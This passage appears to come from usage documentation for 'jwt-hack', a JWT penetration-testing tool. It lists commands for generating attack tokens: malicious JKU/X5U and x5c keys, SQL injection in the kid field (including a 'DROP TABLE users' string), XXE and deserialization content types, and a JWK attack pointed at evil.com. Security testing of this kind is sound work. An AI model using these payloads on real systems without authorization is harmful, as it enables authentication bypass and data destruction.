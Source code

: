 Generates payloads with:
- Malicious JKU URLs pointing to attacker-controlled keys
- X5U URLs for certificate chain manipulation
- Domain bypass techniques
- Protocol downgrade attacks

### KID SQL Injection

Inject SQL payloads in Key ID field:

```bash
jwt-hack payload <TOKEN> --target=kid_sql
```

Generates payloads with SQL injection vectors:
- `' OR 1=1--`
- `'; DROP TABLE users;--`
- `' UNION SELECT null--`
- Time-based blind SQL injection payloads

### X5C Certificate Injection

Inject malicious certificate chains:

```bash
jwt-hack payload <TOKEN> --target=x5c
```

Creates payloads with:
- Malicious certificate chains
- Self-signed certificates
- Certificate with custom extensions
- Chain validation bypass attempts

### CTY Content Type Attacks

Manipulate content type headers for XXE and deserialization:

```bash
jwt-hack payload <TOKEN> --target=cty
```

Generates payloads with content types for:
- `text/xml` - XML External Entity (XXE) attacks
- `application/xml` - XML processing vulnerabilities  
- `application/x-java-serialized-object` - Java deserialization
- `application/json+x-jackson-smile` - Jackson deserialization

## Generate All Payload Types

Create comprehensive attack payload set:

```bash
# Generate all attack types
jwt-hack payload <TOKEN> --target=all

# All attacks with custom domains
jwt-hack payload <TOKEN> --target=all --jwk-attack=evil.com --jwk-trust=trusted.com
```
